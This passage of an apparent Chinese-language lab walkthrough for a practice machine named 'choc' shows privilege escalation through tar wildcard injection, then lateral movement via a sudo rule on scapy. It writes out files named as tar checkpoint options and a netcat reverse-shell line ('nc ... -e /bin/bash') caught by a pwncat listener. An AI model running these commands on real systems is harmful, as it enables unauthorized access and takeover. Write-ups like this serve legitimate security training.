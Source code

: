 分析 `/tmp/backup_home.tgz` 文件的内容，就是 `/home/torki/secret_garden/diary.txt` 这个文件

## 借助 tar 进行提权

```bash
(remote) carl@choc:/home/torki$ echo '' > secret_garden/--checkpoint=1
(remote) carl@choc:/home/torki$ echo ''>'secret_garden/--checkpoint-action=exec=sh pwn.sh'
(remote) carl@choc:/home/torki$ echo 'nc 192.168.56.102 8888 -e /bin/bash' > secret_garden/pwn.sh
(remote) carl@choc:/home/torki$ chmod +x secret_garden/pwn.sh
```

通过构建以上参数，就可以实现在 tar 的命令行中植入恶意参数，从而实现命令执行

## User - torki

```bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 8888
[23:57:42] Welcome to pwncat 🐈!
[23:58:01] received connection from 192.168.56.122:40952
[23:58:01] 0.0.0.0:8888: normalizing shell path
           192.168.56.122:40952: registered new host w/ db
(local) pwncat$ back
(remote) torki@choc:/home/torki/secret_garden$ whoami
torki
```

### 环境探测

```plaintext title="sudo -l"
User torki may run the following commands on choc:
    (sarah) NOPASSWD: /usr/bin/scapy
```

scapy 就是一个 Python 环境，所以很容易就能实现横向越权

## User - sarah

```bash
(remote) torki@choc:/home/torki/secret_garden$ sudo -u sarah /usr/bin/scapy
WARNING: Cannot read wireshark manuf database
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
WARNING: No route found for IPv6 destination :: (no default route?)
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.

                     aSPY//YASa
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.0
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | Craft packets like it is your last
       scccccp///pSP///p          p//Y   | day on earth.
      sY/////////y  caa           S//P   |                      -- Lao-Tze
       cayCyayP//Ya              pY/Ya   |
        sY/PsY////YCc          aC//Yp
         sc  sccaCY//PCypaapyCP//YSs
```
